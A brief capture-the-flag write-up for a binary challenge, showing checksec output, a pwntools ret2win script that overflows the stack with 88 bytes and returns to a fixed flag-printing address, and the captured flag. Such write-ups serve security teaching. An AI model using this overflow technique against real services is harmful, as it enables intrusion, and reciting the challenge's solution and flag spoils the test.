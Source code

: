 ```yaml
---
ai_date: 2025-04-27 05:25:47
ai_summary: No PIE and no stack canary allow for buffer overflow exploitation, leading to flag retrieval
ai_tags:
  - bof
  - stack-overflow
  - exploitation
created: 2025-03-02T08:49
points: 200
solves: 11
updated: 2025-07-14T09:46
---
```


```bash
$ checksec --file=server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0 server
```

- No PIE: Addresses are fixed.
- No Stack Canary: Free-for-all stack smashing.

We should be able to simply return to the print flag part.

```python
from pwn import *

r = remote('localhost', 21504)

offset = 88
flag_addr = 0x40167C

payload = b'A' * offset + p64(flag_addr)
r.sendline(payload)
r.interactive()
```

```flag
ATHACKCTF{0xdeadbeef_5t4ck_8453d_8uff3r_0v3rf10w}
```